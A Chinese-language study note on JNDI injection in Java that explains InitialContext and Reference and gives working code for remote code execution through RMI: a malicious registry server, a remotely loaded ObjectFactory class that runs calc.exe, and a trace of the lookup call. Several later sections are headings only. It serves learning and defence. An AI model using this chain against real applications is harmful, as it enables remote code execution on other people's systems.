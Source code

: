 * 测试时注意远程加载类的存放地址
* JDNI几种攻击向量
* 不同攻击向量的版本需求
* 对于高版本的限制绕过
* marshalsec

> 我个人的理解是，JNDI的本质还是调用了RMI、LDAP等不同技术的相关类和方法，所以在讨论JNDI注入带来的安全问题时，需要弄清两点：
>
> 1. JNDI是如何与RMI、LDAP还有所支持的其他技术的资源相结合的，为什么有些会引起安全问题，有一些则不会。
> 2. 简单了解了一些资料，发现Reference这个类是引发安全问题的关键，所以需要去了解这个类（以及相关的工厂模式），还需要了解JNDI是如何利用这个类的
> 3. 弄清JDNI注入的基本问题后，需要了解jdk高版本下是如何对RMI和JNDI进行修复的，接着就是目前已知的绕过修复的方法

### JDNI

#### JDNI介绍

一些需要了解的概念：

* JNDI（Java Naming and Directory Interface）即 Java 命名与目录接口。
* JNDI 提供了一种统一的方式来查找和访问各种不同类型的资源。比较直观的解释是，我们在使用RMI、LDAP、JDBC等技术访问相应的资源时，使用的是不同的类和方法，有了JNDI之后，我们只需要使用JDNI相关的类和方法，就可以通过资源的URL访问它们。
* JNDI提供统一的客户端API，通过不同的访问提供者接口JNDI服务供应接口(SPI)的实现，由管理者将JNDI API映射为特定的命名服务和目录系统，使得Java应用程序可以和这些命名服务和目录服务之间进行交互。目录服务是命名服务的一种自然扩展。
* JNDI现在可以访问的目录服务有DNS、XNam 、Novell目录服务、LDAP(Lightweight Directory Access Protocol轻型目录访问协议)、 CORBA对象服务、文件系统、Windows XP/2000/NT/Me/9x的注册表、RMI、DSML v1&v2、NIS。
* 现在JNDI已经成为J2EE的标准之一，所有的J2EE容器都必须提供一个JNDI的服务。

#### JDNI的一些相关类和方法

* ### InitialContext

```txt
InitialContext() 
构建一个初始上下文。  
InitialContext(boolean lazy) 
构造一个初始上下文，并选择不初始化它。  
InitialContext(Hashtable<?,?> environment) 
使用提供的环境构建初始上下文。 
```

```java
InitialContext initialContext = new InitialContext();
```

在这JDK里面给的解释是构建初始上下文，其实通俗点来讲就是获取初始目录环境。在学习过程中，没有哪篇文章对其作了详细的介绍，所以这里了解即可。

* ### Reference

该类也是在`javax.naming`的一个类，该类表示对在命名/目录系统外部找到的对象的引用。提供了JNDI中类的引用功能。

```txt
Reference(String className) 
	为类名为“className”的对象构造一个新的引用。  
Reference(String className, RefAddr addr) 
	为类名为“className”的对象和地址构造一个新引用。  
Reference(String className, RefAddr addr, String factory, String factoryLocation) 
	为类名为“className”的对象，对象工厂的类名和位置以及对象的地址构造一个新引用。  
Reference(String className, String factory, String factoryLocation) 
	为类名为“className”的对象以及对象工厂的类名和位置构造一个新引用。  

```

```java
String url = "http://127.0.0.1:8080";
Reference reference = new Reference("test", "test", url);
```

Reference(String className, String factory, String factoryLocation) 是比较常见的用法，factoryLocation很好理解，在结合RMI、LDAP的攻击过程中，即是存放恶意class的地址。className这个参数表示所引用对象的类的全限定名（Fully Qualified Class Name，FQCN），即对象实际对应的类名，如果你引用的是一个数据库连接池对象，这里可能是像`"com.example.ConnectionPool"`这样的类名。factory这个参数指定一个工厂类（Factory Class）的全限定名，负责返回`className`所描述的对象实例。工厂类通常用于生成、重构或复原被命名对象的实例，如果`className`是一个数据库连接池类，`factory`可能是实现该池管理逻辑的工厂类，比如`"com.example.ConnectionPoolFactory"`。

#### JDNI注入利用RMI实现RCE

* **利用的代码示例**

```java
// RMIClient
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class Client {
    public static void main(String[] args) throws NamingException {
        String url = "rmi://localhost:1099/obj";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }
}

```

```java
// RMIServer
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        String url = "http://127.0.0.1:8080/";
        Registry registry = LocateRegistry.createRegistry(1099);
        // 从后面的代码分析过程中可以看出，第二个参数需要是远程加载类的完整包名，第一个参数不影响RCE
        Reference reference = new Reference("ExecTest", "ExecTest", url);
        // 后续bind操作要求类实现了Remote接口，为了实现这个需求，我们需要再包装一层
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("obj",referenceWrapper);
        System.out.println("running");
    }
}
```

```java
// Reference远程加载的类
// 这个类需要不在Client的本地classpath中，否则，Client将不会远程加载该类
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;

public class ExecTest implements ObjectFactory {
    public ExecTest() throws IOException,InterruptedException{
        Runtime.getRuntime().exec("calc.exe");
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx,
                                    Hashtable<?,?> environment) throws IOException{
        Runtime.getRuntime().exec("notepad.exe");
        return null;
    }
}
```

这里Client的url是可控的，控制其向恶意的RMI Server的某个资源发起连接，该资源bind到一个经过包装的Reference对象，Reference又指向一个恶意类，Client远程加载该类，造成RCE。

* **Reference的触发RCE的gatget**

深入客户端`initialContext.lookup(url)`，逐步分析调用过程

```java
// InitialContext#lookup
public Object lookup(String name) throws NamingException {
   
    return getURLOrDefaultInitCtx(name).lookup(name);
}
protected Context getURLOrDefaultInitCtx(String name)
        throws NamingException {
    if (NamingManager.hasInitialContextFactoryBuilder()) {
        return getDefaultInitCtx();
    }
    String scheme = getURLScheme(name);
    if (scheme != null) {
        Context ctx = NamingManager.getURLContext(scheme, myProps);
        if (ctx != null) {
            return ctx;
        }
    }
    return getDefaultInitCtx();
}
```



* RCE为什么没有在服务端触发
* Reference的利用版本
* 高版本的修复方式

#### JDNI注入利用LDAP实现RCE

#### JNDI利用DNS进行dnslog

### marshalsec